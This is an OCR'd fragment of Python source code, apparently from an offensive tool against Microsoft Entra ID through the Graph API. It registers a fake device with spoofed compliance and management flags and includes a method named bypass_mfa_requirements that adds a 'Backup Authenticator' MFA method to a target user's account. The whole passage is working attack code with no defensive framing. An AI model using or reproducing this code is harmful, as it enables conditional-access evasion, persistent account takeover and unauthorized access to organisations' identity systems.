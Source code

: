 ```python
            "accountEnabled": True,
            "alternativeSecurityIds": [
                {
                    "type": 2,
                    "key": self.generate_device_key()
                }
            ],
            "approximateLastSignInDateTime": datetime.utcnow().isoformat(),
            "deviceId": self.generate_device_id(),
            "deviceMetadata": "compliant=true;managed=true",
            "displayName": "DESKTOP-COMPLIANCE-01",
            "isCompliant": True,
            "isManaged": True,
            "operatingSystem": "Windows",
            "operatingSystemVersion": "10.0.19044.1865",
            "trustType": "Domain"
        }

        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        devices_url = f"{self.graph_url}/devices"
        response = requests.post(devices_url, headers=headers, json=device_registration)

        if response.status_code == 201:
            return response.json()
        else:
            print(f"Device registration failed: {response.text}")
            return None

    def bypass_mfa_requirements(self, target_user_id):
        """Attempt to bypass MFA requirements"""
        # Method 1: Register new authentication method
        auth_methods_url = f"{self.graph_url}/users/{target_user_id}/authentication/methods"

        new_method = {
            "@odata.type": "microsoft.graph.microsoftAuthenticatorAuthenticationMethod",
            "displayName": "Backup Authenticator",
            "phoneAppVersion": "6.2022.6.1"
        }

        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        response = requests.post(auth_methods_url, headers=headers, json=new_method)

        if response.status_code == 201:
            print("Successfully registered backup MFA method")
            return response.json()

        return None
```
